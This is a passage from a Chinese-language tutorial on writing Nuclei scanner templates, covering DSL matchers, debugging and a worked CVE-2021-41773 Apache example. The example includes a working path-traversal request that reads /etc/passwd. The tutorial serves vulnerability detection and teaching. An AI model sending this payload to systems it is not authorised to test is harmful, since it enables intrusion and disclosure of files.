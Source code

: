 ### 六、DSL（Domain Specific Language）

Nuclei 的 DSL 是一种强大的表达式语言，用于匹配器和提取器中的复杂逻辑。常用函数包括：

*   `contains(str, substr)`：检查字符串是否包含子字符串。
*   `regex_find(regex, str)`：提取正则匹配的内容。
*   `len(str)`：返回字符串长度。
*   `to_lower(str)`：转换为小写。
*   `base64_decode(str)`：Base64 解码。

示例：

```
matchers:
  - type: dsl
    dsl:
      - "status_code == 200 && len(body) > 1000 && contains(to_lower(body), 'admin')"
```

DSL 支持变量（如 `status_code`, `body`, `header`），可实现灵活的逻辑判断。

### 七、调试与优化

#### 7.1 调试技巧

*   **-debug**：运行 `nuclei -t template.yaml -u http://target.com -debug` 查看详细请求 / 响应。
*   **-verbose**：显示更多扫描信息。
*   **日志分析**：检查 `nuclei.log` 文件，定位匹配或提取失败原因。
*   **模板验证**：使用 `nuclei -validate -t template.yaml` 验证 YAML 语法。

#### 7.2 优化建议

*   **减少误报**：匹配器应尽量具体，避免泛化（如仅匹配 “error” 可能误报）。
*   **性能优化**：使用 `stop-at-first-match` 减少不必要请求。
*   **动态变量**：利用 `{{BaseURL}}`、`{{Hostname}}` 等占位符适配目标。
*   **模块化**：将通用逻辑（如指纹识别）拆分为独立模板，复用性更高。

### 八、实际案例：编写 CVE PoC

以 CVE-2021-41773（Apache HTTP Server 路径遍历漏洞）为例，展示 PoC 编写流程。

#### 8.1 漏洞分析

*   **漏洞描述**：Apache 2.4.49/2.4.50 未正确处理 URL 编码，可能导致路径遍历和任意文件读取。
*   **检测方法**：发送特定路径（如 `/cgi-bin/.%2e/%2e%2e/%2e%2e/etc/passwd`），检查响应是否包含文件内容（如 “root:”）。

#### 8.2 PoC 模板

```
id: cve-2021-41773-apache-path-traversal
info:
  name: Apache HTTP Server Path Traversal (CVE-2021-41773)
  author: your-username
  severity: critical
  description: Detects path traversal vulnerability in Apache HTTP Server 2.4.49/2.4.50.
  reference:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773
  tags: cve, apache, path-traversal

http:
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
    headers:
      User-Agent: Mozilla/5.0

    matchers-condition: and
    matchers:
```